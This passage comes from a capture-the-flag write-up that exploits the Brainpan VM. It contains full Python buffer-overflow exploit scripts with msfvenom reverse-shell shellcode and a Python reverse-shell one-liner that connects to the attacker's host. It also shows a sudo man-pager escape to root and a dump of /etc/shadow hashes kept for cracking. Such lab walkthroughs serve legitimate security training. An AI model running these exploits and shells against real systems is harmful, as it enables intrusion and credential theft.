At this point, I needed to change EIP so that it would point to an address with a `JMP ESP` instruction in it. To search for this register, I used `mona.py` (a script that comes installed with Immunity Debugger) to serach for a memory address with `JMP ESP`.

With a default Immunity Debugger installation, there is no `mona.py` script, so you can go get `mona.py` from here: https://raw.githubusercontent.com/corelan/mona/master/mona.py

You can then download it to you windows exploit development machine here with the following PowerShell command as Administrator:

```powershell
(New-Object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/corelan/mona/master/mona.py", "C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands\mona.py")
```

We can then run the following command in Immunity Debugger to search for modules:

```none
!mona modules
```



Taking a close look at the image above, we can see that the `brainpan.exe` module has `Rebase, SafeSEH, ASLR, NXCompat` disabled which makes it a good candidate module to search for a `JMP ESP` gadget since there will be no address rebasing occurring and the stack is still executable.

We can search the `brainpan.exe` module for `JMP ESP` gadgets with the follwing command:

```none
!mona find -s "\xff\xe4" -m "brainpan.exe"
```



Note that we searched for addresses with `\xff\xe4` because that is x86 assembly for `JMP ESP`.
Notably, a `JMP ESP` command was located at `0x311712f3`, so that will be the memory address where we will begin taking control of the program so that we can jump into our shellcode.

I updated the shellcode to the following:

```python
import struct
from pwn import *

conn = remote('192.168.254.132', 9999)
buf_len = 524
jmp_esp = struct.pack("<I", 0x311712f3)
buff = b"\x90" * buf_len + jmp_esp
buff += b"\xcc"*1000
print(f'[->] {buff}')
conn.send(buff)
response = conn.recvline()
print('[<-]')
```

The only difference between this version of `exploit.py` and the previous version is that this version uses the `0xcc` bytes instead of `A`'s into the end of the buffer. This version also replaces `0xdeadbeef` with `0x311712f3` so that we can jump to the `0xcc` bytes which will be caught by the debugger.

After running the exploit, I was able to land the flow execution into the buffer of `0xcc` bytes:



We are almost at the point where we can start executing some shellcode! However, we must search for bad characters so that they don't ruin with our exploit by chaning how the program executes.

We can update the exploit code to look like the following:

```python
import struct
from pwn import *

badchars = (
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")


conn = remote('192.168.254.132', 9999)
buf_len = 524
jmp_esp = struct.pack("<I", 0x311712f3)
buff = b"\x90" * buf_len + jmp_esp
buff += badchars
print(f'[->] {buff}')
conn.send(buff)
response = conn.recvline()
print('[<-]')
```

Notice how I omitted the NULL byte (`0x00`) before sending the payload. We can check to see which bytes in this payload changed by examining the ESP register in the Immunity Debugger memory dump and checking which bytes changed relative to the buffer of bad bytes supplied:

```none
!mona bytearray
```



Then, we can take the memory address from where the bad characters started in our buffer and compare them for differences in the bytearray:

```none
!mona compare -f bytearray.txt -a 0x005ff910
```



At this point, it looks like the only bad character was `0x00` which I omitted earlier to save time since the NULL byte normally truncates buffers during operations like `strcpy`.

Now that we have identified all the bad characters, and determined that we have about 1000 bytes of space for our shellcode, we can generate the following shellcode so that the remote host will connect back to our meterpreter listener:

```none
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.254.145 LPORT=2001 EXITFUNC=thread --platform windows -f python -n 50 -b '\x00' --arch x86
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Successfully added NOP sled of size 50 from x86/single_byte
Payload size: 401 bytes
Final size of python file: 1956 bytes
buf =  b""
buf += b"\xd6\x9f\xf5\xf5\x2f\xfd\x98\x2f\x41\x90\xf9\x91\x91"
buf += b"\x27\x98\x27\xd6\x41\xf8\x91\x90\x4a\xd6\x2f\x41\x98"
buf += b"\x4a\x41\x91\x90\x3f\x90\x92\xf8\x42\xf5\x4a\x4b\x48"
buf += b"\x9b\x3f\x48\x48\x91\x92\xf8\x3f\x40\x41\xf9\xdb\xcb"
buf += b"\xd9\x74\x24\xf4\xbf\x4e\x26\xc7\x13\x5b\x2b\xc9\xb1"
buf += b"\x52\x83\xc3\x04\x31\x7b\x13\x03\x35\x35\x25\xe6\x35"
buf += b"\xd1\x2b\x09\xc5\x22\x4c\x83\x20\x13\x4c\xf7\x21\x04"
buf += b"\x7c\x73\x67\xa9\xf7\xd1\x93\x3a\x75\xfe\x94\x8b\x30"
buf += b"\xd8\x9b\x0c\x68\x18\xba\x8e\x73\x4d\x1c\xae\xbb\x80"
buf += b"\x5d\xf7\xa6\x69\x0f\xa0\xad\xdc\xbf\xc5\xf8\xdc\x34"
buf += b"\x95\xed\x64\xa9\x6e\x0f\x44\x7c\xe4\x56\x46\x7f\x29"
buf += b"\xe3\xcf\x67\x2e\xce\x86\x1c\x84\xa4\x18\xf4\xd4\x45"
buf += b"\xb6\x39\xd9\xb7\xc6\x7e\xde\x27\xbd\x76\x1c\xd5\xc6"
buf += b"\x4d\x5e\x01\x42\x55\xf8\xc2\xf4\xb1\xf8\x07\x62\x32"
buf += b"\xf6\xec\xe0\x1c\x1b\xf2\x25\x17\x27\x7f\xc8\xf7\xa1"
buf += b"\x3b\xef\xd3\xea\x98\x8e\x42\x57\x4e\xae\x94\x38\x2f"
buf += b"\x0a\xdf\xd5\x24\x27\x82\xb1\x89\x0a\x3c\x42\x86\x1d"
buf += b"\x4f\x70\x09\xb6\xc7\x38\xc2\x10\x10\x3e\xf9\xe5\x8e"
buf += b"\xc1\x02\x16\x87\x05\x56\x46\xbf\xac\xd7\x0d\x3f\x50"
buf += b"\x02\x81\x6f\xfe\xfd\x62\xdf\xbe\xad\x0a\x35\x31\x91"
buf += b"\x2b\x36\x9b\xba\xc6\xcd\x4c\x05\xbe\x33\x1d\xed\xbd"
buf += b"\xcb\x19\x3f\x48\x2d\x4f\xaf\x1d\xe6\xf8\x56\x04\x7c"
buf += b"\x98\x97\x92\xf9\x9a\x1c\x11\xfe\x55\xd5\x5c\xec\x02"
buf += b"\x15\x2b\x4e\x84\x2a\x81\xe6\x4a\xb8\x4e\xf6\x05\xa1"
buf += b"\xd8\xa1\x42\x17\x11\x27\x7f\x0e\x8b\x55\x82\xd6\xf4"
buf += b"\xdd\x59\x2b\xfa\xdc\x2c\x17\xd8\xce\xe8\x98\x64\xba"
buf += b"\xa4\xce\x32\x14\x03\xb9\xf4\xce\xdd\x16\x5f\x86\x98"
buf += b"\x54\x60\xd0\xa4\xb0\x16\x3c\x14\x6d\x6f\x43\x99\xf9"
buf += b"\x67\x3c\xc7\x99\x88\x97\x43\xb9\x6a\x3d\xbe\x52\x33"
buf += b"\xd4\x03\x3f\xc4\x03\x47\x46\x47\xa1\x38\xbd\x57\xc0"
buf += b"\x3d\xf9\xdf\x39\x4c\x92\xb5\x3d\xe3\x93\x9f"
```

Some important details to notice is that we are choosing to go with the `x86` CPU architecture because that is what the executable `brainpan.exe` is compiled as.
We also provide 50 bytes of NOP sled since the shellcode provided is polymorphic. This means that the shellcode will overwrite its own memory as it executes so that it can extract itself before jumping into it.
All NULL bytes are also encoded so that there will be none when the payload gets delivered and processed.

I used the `windows/shell_reverse_tcp` payload because I had some issues with meterpreter as `brainpan.exe` was running in a wine emulator and meterpreter had troubles spawning a shell from it.

The updated exploit code looks like this:

```python
import struct
from pwn import *

shellcode =  b""
shellcode += b"\xd6\x9f\xf5\xf5\x2f\xfd\x98\x2f\x41\x90\xf9\x91\x91"
shellcode += b"\x27\x98\x27\xd6\x41\xf8\x91\x90\x4a\xd6\x2f\x41\x98"
shellcode += b"\x4a\x41\x91\x90\x3f\x90\x92\xf8\x42\xf5\x4a\x4b\x48"
shellcode += b"\x9b\x3f\x48\x48\x91\x92\xf8\x3f\x40\x41\xf9\xdb\xcb"
shellcode += b"\xd9\x74\x24\xf4\xbf\x4e\x26\xc7\x13\x5b\x2b\xc9\xb1"
shellcode += b"\x52\x83\xc3\x04\x31\x7b\x13\x03\x35\x35\x25\xe6\x35"
shellcode += b"\xd1\x2b\x09\xc5\x22\x4c\x83\x20\x13\x4c\xf7\x21\x04"
shellcode += b"\x7c\x73\x67\xa9\xf7\xd1\x93\x3a\x75\xfe\x94\x8b\x30"
shellcode += b"\xd8\x9b\x0c\x68\x18\xba\x8e\x73\x4d\x1c\xae\xbb\x80"
shellcode += b"\x5d\xf7\xa6\x69\x0f\xa0\xad\xdc\xbf\xc5\xf8\xdc\x34"
shellcode += b"\x95\xed\x64\xa9\x6e\x0f\x44\x7c\xe4\x56\x46\x7f\x29"
shellcode += b"\xe3\xcf\x67\x2e\xce\x86\x1c\x84\xa4\x18\xf4\xd4\x45"
shellcode += b"\xb6\x39\xd9\xb7\xc6\x7e\xde\x27\xbd\x76\x1c\xd5\xc6"
shellcode += b"\x4d\x5e\x01\x42\x55\xf8\xc2\xf4\xb1\xf8\x07\x62\x32"
shellcode += b"\xf6\xec\xe0\x1c\x1b\xf2\x25\x17\x27\x7f\xc8\xf7\xa1"
shellcode += b"\x3b\xef\xd3\xea\x98\x8e\x42\x57\x4e\xae\x94\x38\x2f"
shellcode += b"\x0a\xdf\xd5\x24\x27\x82\xb1\x89\x0a\x3c\x42\x86\x1d"
shellcode += b"\x4f\x70\x09\xb6\xc7\x38\xc2\x10\x10\x3e\xf9\xe5\x8e"
shellcode += b"\xc1\x02\x16\x87\x05\x56\x46\xbf\xac\xd7\x0d\x3f\x50"
shellcode += b"\x02\x81\x6f\xfe\xfd\x62\xdf\xbe\xad\x0a\x35\x31\x91"
shellcode += b"\x2b\x36\x9b\xba\xc6\xcd\x4c\x05\xbe\x33\x1d\xed\xbd"
shellcode += b"\xcb\x19\x3f\x48\x2d\x4f\xaf\x1d\xe6\xf8\x56\x04\x7c"
shellcode += b"\x98\x97\x92\xf9\x9a\x1c\x11\xfe\x55\xd5\x5c\xec\x02"
shellcode += b"\x15\x2b\x4e\x84\x2a\x81\xe6\x4a\xb8\x4e\xf6\x05\xa1"
shellcode += b"\xd8\xa1\x42\x17\x11\x27\x7f\x0e\x8b\x55\x82\xd6\xf4"
shellcode += b"\xdd\x59\x2b\xfa\xdc\x2c\x17\xd8\xce\xe8\x98\x64\xba"
shellcode += b"\xa4\xce\x32\x14\x03\xb9\xf4\xce\xdd\x16\x5f\x86\x98"
shellcode += b"\x54\x60\xd0\xa4\xb0\x16\x3c\x14\x6d\x6f\x43\x99\xf9"
shellcode += b"\x67\x3c\xc7\x99\x88\x97\x43\xb9\x6a\x3d\xbe\x52\x33"
shellcode += b"\xd4\x03\x3f\xc4\x03\x47\x46\x47\xa1\x38\xbd\x57\xc0"
shellcode += b"\x3d\xf9\xdf\x39\x4c\x92\xb5\x3d\xe3\x93\x9f"

conn = remote('192.168.254.132', 9999)
buf_len = 524
jmp_esp = struct.pack("<I", 0x311712f3)
buff = b"\x90" * buf_len + jmp_esp
buff += shellcode
print(f'[->] {buff}')
conn.send(buff)
response = conn.recvline()
print('[<-]')
```

We can then use the following command to setup a `netcat` listener:

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 192.168.254.132.
Ncat: Connection from 192.168.254.132:53933.
Microsoft Windows [Version 10.0.18363.900]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\r0kit\Documents\ctf\brainpan1>whoami
whoami
desktop-o4or4d3\r0kit

C:\Users\r0kit\Documents\ctf\brainpan1>
```

Excellent! At this point, we can go ahead and try exploiting `brainpan.exe` on the brainpan host!

After modifying the exploit script to point to the brainpan host, we are presented with a low privileged reverse shell within a wine environment:

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001

Ncat: Connection from 192.168.254.150.
Ncat: Connection from 192.168.254.150:46089.
CMD Version 1.4.1

Z:\home\puck>
Z:\home\puck>dir
Volume in drive Z has no label.
Volume Serial Number is 0000-0000

Directory of Z:\home\puck

3/6/2013   3:23 PM  <DIR>         .
3/4/2013  11:49 AM  <DIR>         ..
3/6/2013   3:23 PM           513  checksrv.sh
3/4/2013   2:45 PM  <DIR>         web
1 file                       513 bytes
3 directories     13,849,710,592 bytes free
```

## Privilege Escalation

Although still in a wine environment, we can still find some a Linux structure under `z:\` and Linux binaries under the `z:\bin` directory which we can execute:

```none
Z:\>dir
Volume in drive Z has no label.
Volume Serial Number is 0000-0000

Directory of Z:\

  3/4/2013   1:02 PM  <DIR>         bin
  3/4/2013  11:19 AM  <DIR>         boot
 8/22/2020   4:12 PM  <DIR>         etc
  3/4/2013  11:49 AM  <DIR>         home
  3/4/2013  11:18 AM    15,084,717  initrd.img
  3/4/2013  11:18 AM    15,084,717  initrd.img.old
  3/4/2013   1:04 PM  <DIR>         lib
  3/4/2013  10:12 AM  <DIR>         lost+found
  3/4/2013  10:12 AM  <DIR>         media
 10/9/2012   9:59 AM  <DIR>         mnt
  3/4/2013  10:13 AM  <DIR>         opt
  3/7/2013  11:07 PM  <DIR>         root
 8/22/2020   4:12 PM  <DIR>         run
  3/4/2013  11:20 AM  <DIR>         sbin
 6/11/2012   9:43 AM  <DIR>         selinux
  3/4/2013  10:13 AM  <DIR>         srv
 8/22/2020   7:13 PM  <DIR>         tmp
  3/4/2013  10:13 AM  <DIR>         usr
  3/7/2013  11:13 PM  <DIR>         var
 2/25/2013   2:32 PM     5,180,432  vmlinuz
 2/25/2013   2:32 PM     5,180,432  vmlinuz.old
       4 files               40,530,298 bytes
      17 directories     13,849,710,592 bytes free

Z:\>dir bin
Volume in drive Z has no label.
Volume Serial Number is 0000-0000

Directory of Z:\bin

  3/4/2013   1:02 PM  <DIR>         .
  3/4/2013  10:15 AM  <DIR>         ..
 9/19/2012   8:42 AM       920,796  bash
  8/3/2012  11:30 AM        30,240  bunzip2
11/16/2012  12:58 PM     1,639,600  busybox
  8/3/2012  11:30 AM        30,240  bzcat
  8/3/2012  11:30 AM         2,140  bzcmp
  8/3/2012  11:30 AM         2,140  bzdiff
  8/3/2012  11:30 AM         3,642  bzegrep
  8/3/2012  11:30 AM         4,877  bzexe
  8/3/2012  11:30 AM         3,642  bzfgrep
  8/3/2012  11:30 AM         3,642  bzgrep
  8/3/2012  11:30 AM        30,240  bzip2
  8/3/2012  11:30 AM         9,624  bzip2recover
  8/3/2012  11:30 AM         1,297  bzless
  8/3/2012  11:30 AM         1,297  bzmore
11/19/2012   5:22 PM        46,784  cat
 10/1/2012  11:04 AM         9,764  chacl
11/19/2012   5:22 PM        54,948  chgrp
11/19/2012   5:22 PM        50,824  chmod
11/19/2012   5:22 PM        54,956  chown
 5/22/2012   5:53 PM         9,656  chvt
11/19/2012   5:22 PM       120,728  cp
 10/1/2012  11:02 AM       138,900  cpio
 8/15/2012   5:41 AM        96,232  dash
11/19/2012   5:22 PM        54,936  date
 10/3/2012   4:00 PM         9,736  dbus-cleanup-sockets
 10/3/2012   4:00 PM       432,440  dbus-daemon
 10/3/2012   4:00 PM         5,604  dbus-uuidgen
11/19/2012   5:22 PM        55,000  dd
11/19/2012   5:22 PM        79,652  df
11/19/2012   5:22 PM       108,612  dir
  9/6/2012   4:28 PM        22,040  dmesg
 6/21/2012   4:28 PM        13,856  dnsdomainname
 6/21/2012   4:28 PM        13,856  domainname
 5/22/2012   5:53 PM        57,976  dumpkeys
11/19/2012   5:22 PM        26,172  echo
 5/30/2012   4:51 AM        42,684  ed
 5/24/2012  10:04 AM       153,608  egrep
11/19/2012   5:22 PM        22,064  false
 5/22/2012   5:53 PM         9,664  fgconsole
 5/24/2012  10:04 AM       116,616  fgrep
  9/6/2012   4:28 PM        34,888  findmnt
  7/3/2012   5:36 AM        30,736  fuser
 6/11/2012  11:18 AM        30,112  fusermount
 10/1/2012  11:04 AM        22,548  getfacl
 5/24/2012  10:04 AM       157,704  grep
 6/28/2012   9:24 PM         2,251  gunzip
 6/28/2012   9:24 PM         5,937  gzexe
 6/28/2012   9:24 PM        88,648  gzip
 6/21/2012   4:28 PM        13,856  hostname
10/12/2012   2:30 PM         5,935  init-checkconf
10/12/2012   2:30 PM        16,005  initctl2dot
 6/25/2012   1:17 PM       266,284  ip
 5/22/2012   5:53 PM         9,660  kbd_mode
 7/16/2012   7:29 PM        18,004  kill
 6/11/2012   9:41 AM       141,248  less
 6/11/2012   9:41 AM         9,648  lessecho
 6/11/2012   9:41 AM         7,745  lessfile
 6/11/2012   9:41 AM        14,468  lesskey
 6/11/2012   9:41 AM         7,745  lesspipe
11/19/2012   5:22 PM        46,740  ln
 5/22/2012   5:53 PM        86,864  loadkeys
  9/6/2012   2:14 PM        43,352  login
 9/10/2012  12:53 AM        63,092  lowntfs-3g
11/19/2012   5:22 PM       108,612  ls
  9/6/2012   4:28 PM        43,320  lsblk
 10/1/2012   9:11 AM         5,560  lsmod
11/19/2012   5:22 PM        42,644  mkdir
11/19/2012   5:22 PM        30,292  mknod
11/19/2012   5:22 PM        34,456  mktemp
  9/6/2012   4:28 PM        34,512  more
  9/6/2012   4:28 PM        88,768  mount
 7/20/2012   9:42 PM         5,488  mountpoint
 10/1/2012  11:02 AM        67,668  mt
 10/1/2012  11:02 AM        67,668  mt-gnu
11/19/2012   5:22 PM       112,508  mv
 10/1/2012   9:11 AM       190,576  nano
 6/14/2012   8:47 AM        30,304  nc
 6/14/2012   8:47 AM        30,304  nc.openbsd
 6/14/2012   8:47 AM        30,304  netcat
 8/22/2012   2:56 AM       113,896  netstat
 6/21/2012   4:28 PM        13,856  nisdomainname
 9/10/2012  12:53 AM        59,012  ntfs-3g
 9/10/2012  12:53 AM         9,628  ntfs-3g.probe
 9/10/2012  12:53 AM        66,948  ntfs-3g.secaudit
 9/10/2012  12:53 AM        17,768  ntfs-3g.usermap
 9/10/2012  12:53 AM        26,036  ntfscat
 9/10/2012  12:53 AM        30,080  ntfsck
 9/10/2012  12:53 AM        34,228  ntfscluster
 9/10/2012  12:53 AM        34,228  ntfscmp
 9/10/2012  12:53 AM        21,864  ntfsdump_logfile
 9/10/2012  12:53 AM        42,428  ntfsfix
 9/10/2012  12:53 AM        58,820  ntfsinfo
 9/10/2012  12:53 AM        31,212  ntfsls
 9/10/2012  12:53 AM        26,000  ntfsmftalloc
 9/10/2012  12:53 AM        34,228  ntfsmove
 9/10/2012  12:53 AM        38,280  ntfstruncate
 9/10/2012  12:53 AM        42,664  ntfswipe
 5/22/2012   5:53 PM        13,872  open
 5/22/2012   5:53 PM        13,872  openvt
 7/20/2012   9:42 PM        17,948  pidof
 10/2/2012   5:26 PM        34,780  ping
 10/2/2012   5:26 PM        39,124  ping6
 8/16/2012   3:19 AM        34,444  plymouth
 8/16/2012   3:19 AM        30,508  plymouth-upstart-bridge
 7/16/2012   7:29 PM        87,952  ps
11/19/2012   5:22 PM        26,240  pwd
 9/19/2012   8:42 AM       920,796  rbash
11/19/2012   5:22 PM        34,424  readlink
11/19/2012   5:22 PM        54,932  rm
11/19/2012   5:22 PM        34,396  rmdir
 10/1/2012   9:11 AM       190,576  rnano
10/12/2012   2:27 PM           254  running-in-container
 9/18/2012   5:47 PM        14,088  run-parts
 10/1/2012   9:22 AM        59,484  sed
 10/1/2012  11:04 AM        30,868  setfacl
 5/22/2012   5:53 PM        38,628  setfont
 10/8/2012  11:25 PM        12,052  setupcon
 8/15/2012   5:41 AM        96,232  sh
 8/15/2012   5:41 AM        96,232  sh.distrib
11/19/2012   5:22 PM        22,080  sleep
 6/25/2012   1:17 PM        71,428  ss
11/16/2012  12:58 PM     1,639,600  static-sh
11/19/2012   5:22 PM        59,012  stty
  9/6/2012   2:14 PM        31,124  su
11/19/2012   5:22 PM        22,072  sync
  9/6/2012   4:28 PM        13,856  tailf
 3/30/2012   8:07 PM       305,968  tar
 9/18/2012   5:47 PM         9,604  tempfile
11/19/2012   5:22 PM        55,000  touch
11/19/2012   5:22 PM        22,064  true
 6/11/2012  11:18 AM        13,672  ulockmgr_server
  9/6/2012   4:28 PM        63,632  umount
11/19/2012   5:22 PM        26,200  uname
 6/28/2012   9:24 PM         2,251  uncompress
 5/22/2012   5:53 PM         2,762  unicode_start
11/19/2012   5:22 PM       108,616  vdir
 9/18/2012   5:47 PM           946  which
 6/13/2012   5:53 PM        22,132  whiptail
 6/21/2012   4:28 PM        13,856  ypdomainname
 6/28/2012   9:24 PM         1,939  zcat
 6/28/2012   9:24 PM         1,758  zcmp
 6/28/2012   9:24 PM         5,766  zdiff
 6/28/2012   9:24 PM           121  zegrep
 6/28/2012   9:24 PM           121  zfgrep
 6/28/2012   9:24 PM         2,133  zforce
 6/28/2012   9:24 PM         5,914  zgrep
 6/28/2012   9:24 PM         2,039  zless
 6/28/2012   9:24 PM         2,802  zmore
 6/28/2012   9:24 PM         5,049  znew
     149 files               11,653,574 bytes
       2 directories     13,849,710,592 bytes free
```

At this point, we can spawn a shell:

```none
Z:\>.\bin\sh

Z:\>sh: turning off NDELAY mode
id
uid=1002(puck) gid=1002(puck) groups=1002(puck)
```

It is always better to get an pseudo tty to jail break out of the wine environment which should be done with a linux-based reverse shell. In this case, we can use the following python reverse shell from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

```none
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.254.145",2002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

This created a python reverse shell which connected back to my netcat listener on port 2002:

```none
$ ncat -nlvp 2002
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2002
Ncat: Listening on 0.0.0.0:2002
Ncat: Connection from 192.168.254.150.
Ncat: Connection from 192.168.254.150:52416.
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
puck@brainpan:/$ 
```

I upgraded my terminal to a pseudo-tty. If you want more information on this, you should check out [this article](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2). I do this because I can run sudo in it can use interactive commands like `vim`.

Since this is a pretty old virtual machine, it wouldn't surprise me if brainpan were running an outdated Linux kernel:

```none
puck@brainpan:/$ uname -a
Linux brainpan 3.5.0-25-generic #39-Ubuntu SMP Mon Feb 25 19:02:34 UTC 2013 i686 i686 i686 GNU/Linux
```

Linux kernel `3.5.0-25` is very outdated and is vulnerable to multiple privilege escalation exploits. One of the most notable one is the `dirty cow` exploit:

```none
$ searchsploit dirty cow
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
 ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page (1)                                                                                                         | linux/dos/43199.c
 Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page (2)                                                                                                         | linux/dos/44305.c
 Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)                                                             | linux/local/40616.c
 Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)                                                                | linux/local/40847.cpp
 Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)                                                                                   | linux/local/40838.c
 Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)                                                             | linux/local/40839.c
 Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access Method)                                                                                    | linux/local/40611.c
 ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

That said, kernel exploits like `dirty cow` can leave the system unstable, so it is preferred to find a more reliable way to achieve privilege escalation. Plus, when the time this VM was released, that Linux kernel version seemed to be the most recent at the time, so for a CTF, privilege escalation via a kernel exploit is likely the unintended path.

The next easiest thing to check for is sudo permissions:

```none
puck@brainpan:/$ sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
```

It looks like we can run the `/home/anansi/bin/anansi_util` command without a password as the root user with sudo:

```none
puck@brainpan:/$ sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

After playing around with the `/home/anansi/bin/anansi_util` command for a bit, I was able to figure out that that command was an alias for the `ifconfig`, `top`, and `man` commands respectively.
You can navigate to [gtfobins](https://gtfobins.github.io) to find ways to escalate your privileges with those commands if you can run them with `sudo`. Since the `man` command enters pager mode, you can enter `!/bin/bash` while in the man page to spawn a root shell:

```bash
puck@brainpan:/$ sudo /home/anansi/bin/anansi_util manual id
```

```none
...skipping...
ID(1)                                                                                          User Commands                                                                                          ID(1)

NAME
       id - print real and effective user and group IDs

SYNOPSIS
       id [OPTION]... [USERNAME]

DESCRIPTION
       Print user and group information for the specified USERNAME, or (when USERNAME omitted) for the current user.

       -a     ignore, for compatibility with other versions

       -Z, --context
              print only the security context of the current user

       -g, --group
              print only the effective group ID

       -G, --groups
              print all group IDs

       -n, --name
!/bin/bash
```

```none
root@brainpan:/usr/share/man# id
uid=0(root) gid=0(root) groups=0(root)
```

I was then able to capture the flag:

```none
root@brainpan:/root# ls
b.txt
root@brainpan:/root# cat b.txt
_|                            _|
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|
                                            _|


                                              http://www.techorganic.com


```

And dump the `/etc/shadow` file so that I could crack passwords later on:

```none
root@brainpan:/home/reynard# cat /etc/shadow
root:$6$m20VT7lw$172.XYFP3mb9Fbp/IgxPQJJKDgdOhg34jZD5sxVMIx3dKq.DBwv.mw3HgCmRd0QcN4TCzaUtmx4C5DvZaDioh0:15768:0:99999:7:::
daemon:*:15768:0:99999:7:::
bin:*:15768:0:99999:7:::
sys:*:15768:0:99999:7:::
sync:*:15768:0:99999:7:::
games:*:15768:0:99999:7:::
man:*:15768:0:99999:7:::
lp:*:15768:0:99999:7:::
mail:*:15768:0:99999:7:::
news:*:15768:0:99999:7:::
uucp:*:15768:0:99999:7:::
proxy:*:15768:0:99999:7:::
www-data:*:15768:0:99999:7:::
backup:*:15768:0:99999:7:::
list:*:15768:0:99999:7:::
irc:*:15768:0:99999:7:::
gnats:*:15768:0:99999:7:::
nobody:*:15768:0:99999:7:::
libuuid:!:15768:0:99999:7:::
syslog:*:15768:0:99999:7:::
messagebus:*:15768:0:99999:7:::
reynard:$6$h54J.qxd$yL5md3J4dONwNl.36iA.mkcabQqRMmeZ0VFKxIVpXeNpfK.mvmYpYsx8W0Xq02zH8bqo2K.mkQzz55U2H5kUh1:15768:0:99999:7:::
anansi:$6$hblZftkV$vmZoctRs1nmcdQCk5gjlmcLUb18xvJa3efaU6cpw9hoOXC/kHupYqQ2qz5O.ekVE.SwMfvRnf.QcB1lyDGIPE1:15768:0:99999:7:::
puck:$6$A/mZxJX0$Zmgb3T6SAq.FxO1gEmbIcBF9Oi7q2eAi0TMMqOhg0pjdgDjBr0p2NBpIRqs4OIEZB4op6ueK888lhO7gc.27g1:15768:0:99999:7:::
```

A quick check with hashcat reveled that the hashing algorithm was `sha512crypt` which has a relatively slow cracking speed:

```none
$ hashcat --example-hashes | grep -C 1 '\$6\$'
MODE: 1800
TYPE: sha512crypt $6$, SHA512 (Unix)
